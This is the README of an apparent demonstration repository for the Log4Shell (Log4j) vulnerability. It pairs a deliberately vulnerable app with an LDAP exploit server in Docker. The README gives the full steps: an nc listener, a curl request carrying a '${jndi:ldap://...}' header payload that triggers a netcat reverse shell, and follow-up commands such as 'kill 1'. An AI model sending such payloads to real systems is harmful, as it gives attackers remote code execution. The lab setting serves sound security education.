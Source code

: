 # ossec-log4j

This repository forks two repositories to demostrate the Log4J Vulnerability

log4shell-vulnerable-app - contains a Gradle application that is vulnerable to the log4j attack in its headers

JNDI-Injection-Exploit - is an LDAP server that is used in the exploit for the vulnerable application to make a request to

## Setup Attack

The following command will set the environment variable ADDRESS to the host IPv4 address. The address is used to pass to the LDAP server to generate a nc command for a reverse shell.

```console
ADDRESS=$(ipconfig getifaddr en0) docker compose up -d
```

The docker compose environment will generate two containers.

1. LDAP Server
2. Vulnerable Application

Two terminals can be opened to view the logs

```console
docker compose logs -ft <service-in-compose-file>
```

## Exploit

On the host, set up a terminal to listen for incomming requests on port tcp/3000.
This terminal will be used to recieve the reverse shell.

```console
nc -lv 3000
```

In a second terminal, run the following request to the vulnerable application.
The ldap string can be taken from the logs of the LDAP server.

The vulnerable appliation will parse the Header and log the Header value. This will cause the vulnerable application to make a request
to the LDAP server and run the payload given. The payload will execute with the applications privileges and invoke a nc connection to the listener.

```console
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://<ipv4>:<port>/<random-string}'
```

To verify the reverse shell type

```console
whoami
```

or

```console
ps
```

From here, you are root in the container running the application. You can do whatever you want, including changing config, and killing the application.

The following command will kill the PID 1 process of the container which should be the application.

```console
kill 1
```
